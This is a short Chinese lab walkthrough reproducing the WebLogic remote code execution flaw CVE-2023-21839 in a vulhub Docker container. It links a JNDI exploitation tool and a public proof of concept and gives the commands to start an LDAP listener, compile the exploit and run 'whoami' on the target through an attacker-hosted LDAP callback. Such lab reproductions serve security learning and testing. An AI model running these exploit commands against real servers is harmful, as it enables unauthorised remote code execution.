



# 2x10 漏洞复现——Weblogic 远程代码执行漏洞(CVE-2023-21839) 

## 一、环境搭建

1. 使用vulhub搭建
2. windows系统下使用docker desktop配置docker环境
3. 进入vulhub目录下的weblogic/CVE-2023-21839目录，docker启动环境
	```shell
	docker-compose up -d
	```
	
4. 随后访问http://IP:7001/console，进入如下界面
	
# 二、漏洞复现
1. 先下载[JNDIExploit利用工具](https://github.com/WhiteHSBG/JNDIExploit/releases/download/v1.4/JNDIExploit.v1.4.zip)，在本地开启JDNI监听
	```java
	java -jar JNDIExploit-1.4-SNAPSHOT.jar -i IP
	```
2. 下载[POC](https://github.com/4ra1n/CVE-2023-21839)，到poc的cmd目录下执行编译命令将POC编译为二进制可执行文件
	```go
	cd cmd
	go build -o CVE-2023-21839.exe
	```
3. 使用POC执行命令whoami
	```shell
	CVE-2023-21839.exe -ip IP -port 7001 -ldap ldap://IP:1389/Basic/Command/whoami
	```
4. 如下，成功回显用户名
	

